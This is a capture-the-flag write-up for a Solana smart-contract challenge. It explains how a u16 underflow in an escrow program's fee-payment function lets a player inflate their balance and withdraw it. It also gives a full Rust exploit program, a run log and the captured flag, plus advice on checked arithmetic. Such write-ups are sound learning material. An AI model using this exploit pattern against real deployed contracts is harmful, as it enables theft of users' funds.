 ```yaml
---
description: WEB3 | 453 pts - 13 solves
---
```


## Utility Payment Service

>Description: Utility payment service. Deposit into your escrow account and make payments from the escrow. I was told it's a magic account. https://drive.google.com/file/d/1YVrLoB9V4K5BpVSBeVOL6W9dObQ71fEF/view?usp=sharing. 
>nc 43.154.34.214 8001  
> Author: @Q7

The contract was a simple Escrow Service that allows you to make payments. The challenge was divided into three components: program, server and solve folders. Inside the first dir we had the entire source code of the contract, in the `solve` dir there was everything necessary to run the exploit.
Inside `solve/src` the exploit has to be written in Rust, then we have to run `python solve.py` which will compile our contract exploit and send it to the chall server.
Moving on to the challenge analysis, we had 3 main functions available: 
- Deposit to escrow 
- Withdraw all balance in escrow 
- Pay utility service fees.

What caught my attention was the `amount: u16`  parameter in the `deposit_escrow()` and `pay_utility_fees()` functions while our balance in initialization was defined as `u64`:

program/src/processor.rs:
```rust
fn pay_utility_fees(program: &Pubkey, accounts: &[AccountInfo], amount: u16) -> ProgramResult {

[...]
    let base_fee = 15_u16;
    if escrow_data.amount >= 10 {
        if amount < base_fee {
            escrow_data.amount -= base_fee;
        } else {
            assert!(escrow_data.amount >= amount);
            escrow_data.amount -= amount;
        }
    } else {
        msg!("ABORT: Cannot make payments when the escrow account has a balance less than 10 lamports.");
    }
[...]
}
```

server/src/main.rs:
```rust
const TARGET_AMT: u64 = 60_000;
const INIT_BAL: u64 = 50;
const RESERVE_BAL: u64 = 1_000_000;
``` 

Clearly something was off. Looking for Rust integer undeflow/overflow in Solana smart contracts, I discovered that, in optimization mode, Rust doesn't make any checks:

>In debug mode, Rust adds built-in checks for overflow/underflow and panics when an overflow/underflow occurs at runtime. However, in release (or optimization) mode, Rust **silently ignores** this behavior by default and computes _two’s complement wrapping (e.g., 255+1 becomes 0 for_ an `u8` integer).

So if you want to do certain subtractions securely you should do it with `checked_sub()`  func or by turning on the `overflow-checks` in release mode by setting `overflow-checks = true` under `[profile.release]`. 
Note that actually, checks are made in `pay_utility_fees()` : if `amount > 15`, it makes sure that there's enough balance in escrow. However we can easily bypass that by calling multiple times the function with `amount < 15`.

### Exploit scenario:
1) Perry deposit 10 lamports out of 50 (init balance) to escrow account.
2) Now Perry has 40 lamports on balance and 10 lamports in escrow account.
3) Perry calls `pay_utility_fees()` with `amount = 10` that deducts the tokens from the escrow account. Balance is = 0 now. Calling the function again, balance will underflow by -10, which will be converted to ~65526 lamports.
4) Perry withdraw all the ~65526 lamports with `withdraw_escrow()`.
5) We have successfully exploited the contract as we now have Balance > Target amount (60k lamports).
6) Catch the flag!

### PoC:  
solve/src/processor.rs:
```rust
use borsh::BorshSerialize;

use solana_program::{
    account_info::{next_account_info, AccountInfo},
    entrypoint::ProgramResult,
    instruction::{AccountMeta, Instruction},
    program::invoke,
    pubkey::Pubkey,
    system_program,
};

use utility_payment::{ServiceInstruction, deposit_escrow, withdraw_escrow, pay_utility_fees};

pub fn process_instruction(
    _program: &Pubkey,
    accounts: &[AccountInfo],
    _data: &[u8],
) -> ProgramResult {
    let account_iter = &mut accounts.iter();
    let utility_program = next_account_info(account_iter)?;
    let user = next_account_info(account_iter)?;
    let reserve = next_account_info(account_iter)?;
    let escrow_account = next_account_info(account_iter)?;
    let sys_prog_account = next_account_info(account_iter)?;

    invoke(
        &Instruction {
            program_id: *utility_program.key,
            accounts: vec![
                AccountMeta::new(*user.key, true),
                AccountMeta::new(*reserve.key, false),
                AccountMeta::new(*escrow_account.key, false),
                AccountMeta::new_readonly(system_program::id(), false),
            ],
            data: ServiceInstruction::Init { }
                .try_to_vec()
                .unwrap(),
        },
        &[
            reserve.clone(),
            escrow_account.clone(),
            user.clone(),
            sys_prog_account.clone(),
        ],
    )?;
    
    // EXPLOIT
    invoke(
        &(
            deposit_escrow(
                *utility_program.key, 
                *user.key,
                *reserve.key, 
                *escrow_account.key, 
                10)
        ), 
        &[
        reserve.clone(),
        escrow_account.clone(),
        user.clone(),
        ]
    )?;

    for _ in 1..3 {
        invoke(
            &(
                pay_utility_fees(
                    *utility_program.key,
                    *user.key,
                    *reserve.key,
                    *escrow_account.key,
                    10)
            ), 
            &[
            reserve.clone(),
            escrow_account.clone(),
            user.clone(),
            ]
        )?;
    }

    invoke(
        &(
            withdraw_escrow(
                *utility_program.key,
                *user.key,
                *reserve.key,
                *escrow_account.key)
        ), 
        &[
        reserve.clone(),
        escrow_account.clone(),
        user.clone(),
        ]
    )?;

    Ok(())
}
```

```shell
└─$ python solve.py HOST=43.154.34.214 PORT=8001 
cargo build-bpf
    Finished release [optimized] target(s) in 0.33s

cp ./target/deploy/utility_payment_solve.so .
[+] Opening connection to 43.154.34.214 on port 8001: Done

program: 6PHpa8eKa2vPssoLGasKCPRSvpjqrStU33ikSLBAUHRa
solve  : CYzKRYDyZbnoHuyzYv339T2p2qm4boWs5NKTixRx84xu
user   : AhvmMNAZsPGYGwtZbdnvvVDYemd3ZhaqevSHsHw3kmTa

user lamport before = 50
user lamport after = 65555

Flag: 
n1ctf{cashback_9dejko3vrpaxq8gsy6iu}

[*] Closed connection to 43.154.34.214 port 8001
```

> n1ctf{cashback_9dejko3vrpaxq8gsy6iu}
